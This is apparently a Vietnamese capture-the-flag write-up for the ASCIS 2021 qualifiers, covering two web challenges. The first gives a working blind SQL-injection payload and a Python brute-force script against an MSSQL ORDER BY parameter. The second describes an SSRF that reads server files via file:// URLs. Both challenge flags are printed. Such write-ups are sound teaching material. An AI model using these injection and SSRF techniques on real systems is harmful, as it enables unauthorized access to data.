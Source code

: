 # ============= ASCIS 2021 - Quals =============  
<hr />  
  
## script kiddie - 100pts  
  
Như mô tả ta có thể biết rằng web có chứa lỗ hổng SQL-injection với cơ sở dữ liệu được dùng ở đây là MSSQL.  
Câu query như sau: ` SELECT * FROM ... ORDER BY $sort ASC`  
Giá trị của biến `$sort` ta có thể control thông qua param `?sort=`  
Payload: `(case when (ascii(substring(db_name(),{index},1))={ord(c)}) then 1 else 1/db_name() end )`  
  
```python3  
import requests
from string import printable


url = 'http://167.172.85.253/web100/'
r = requests.Session()
db = ''
index = len(db) + 1

while True:
	for c in printable:
		#print("testing for " + c)
		payload = f'(case when (ascii(substring(db_name(),{index},1))={ord(c)}) then 1 else 1/db_name() end)'
		resp = r.get(url + '?sort=' + payload)
		if "Error" not in resp.text:
			db += c
			index += 1
			print(f"Length: {len(db)} - DB_NAME: {db}")
			break  
```  
![image](https://user-images.githubusercontent.com/44127534/137701975-53123d34-8aa2-4aa5-a045-d4bb27ac934d.png)  
> Flag: `ASICS{ssalchtiwesmihcueymorf}`  

## OProxy - 400pts
  
Challege là một trang web có chức năng cho người dùng nhập vào một url và server trả về nội dung của trang web đó.  
![1](https://user-images.githubusercontent.com/44127534/137702153-809ef500-a4e6-49fa-b83e-4df111c5c777.png)
  
Dự đoán đây có thể tác giả ra thử thách ssrf. Fuzz các payload ssrf thì thấy được:  
![2](https://user-images.githubusercontent.com/44127534/137702202-a82f0e56-e27d-4629-a829-de987f526274.png)
  
Để ý server respose header Werkzeug/1.01 Python/3.10.0, có thể dự đoán được back-end có thể là flask, và có thể challenge được dựng trên docker, thử nhập url: file://127.0.0.1/app/main.py thì có được mã nguồn:  
  
![3](https://user-images.githubusercontent.com/44127534/137702301-c120d7c0-0606-44ab-8ab1-590538b0dd33.png)
  
Tới đây thì thử đọc file flag:  
![4](https://user-images.githubusercontent.com/44127534/137702338-414b7486-4fa5-4cf3-8864-4121a2d92ccc.png)
  
> Flag: `ASCIS{SSRF_M3mcached_inj3cti0n}`  
